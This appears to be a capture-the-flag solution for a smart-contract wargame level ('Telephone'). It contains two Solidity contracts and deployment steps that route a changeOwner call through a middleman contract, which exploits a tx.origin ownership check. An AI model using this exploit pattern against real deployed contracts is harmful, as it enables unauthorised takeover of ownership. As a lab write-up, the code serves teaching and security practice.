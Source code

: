 ```javascript
pragma solidity ^0.6.0;

contract TelephoneMiddleMan {
    address public base_address; 
    
    constructor(address addr) {
        base_address = addr;
    }
    
    function attack() public returns (bool) {
        (bool success, ) = base_address.call{ gas : 2000000 }(abi.encodeWithSignature("changeOwner(address)", tx.origin));
        require(success, "Failed to change owner.");
        return success;
    }
}
```

```javascript
pragma solidity ^0.6.0;

contract TelephoneAttack {
    address public middleman;
    
    event AttackStatus(bool is_successful);
    
    constructor(address addr) {
        middleman = addr;
    }
  
    function attack() public {
        (bool success , bytes memory data) = middleman.call{ gas : 2000000 }(abi.encodeWithSignature("attack()"));
        require(success, "Failed to attack.");
        bool result = abi.decode(data, (bool));
        emit AttackStatus(result);
    }
}
```

First deploy `TelephoneMiddleMan` contract, then use its address to initialize the `TelephoneAttack` contract. Finally, call `attack()`.
